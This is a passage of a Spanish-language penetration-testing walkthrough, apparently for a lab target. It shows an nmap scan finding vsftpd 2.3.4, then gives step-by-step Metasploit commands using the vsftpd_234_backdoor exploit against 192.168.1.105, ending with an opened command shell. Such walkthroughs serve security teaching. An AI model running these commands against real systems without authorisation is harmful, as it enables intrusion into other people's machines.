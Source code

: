 ```
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 2.3.4
22/tcp   open  ssh        OpenSSH 4.7p1
...
```

> El FTP `vsftpd 2.3.4` es **vulnerable** a ejecución remota.

---

#### Paso 2: Abrir Metasploit en Kali

```bash
msfconsole
```

---

#### Paso 3: Buscar exploit para vsftpd 2.3.4

```bash
search vsftpd
```

Resultado:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### Paso 4: Usar el exploit

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### Paso 5: Configurar la IP de la víctima

```bash
set RHOSTS 192.168.1.105
```

---

#### Paso 6: Ejecutar el ataque

```bash
run
```

Resultado:

```
[*] Command shell session opened!
```

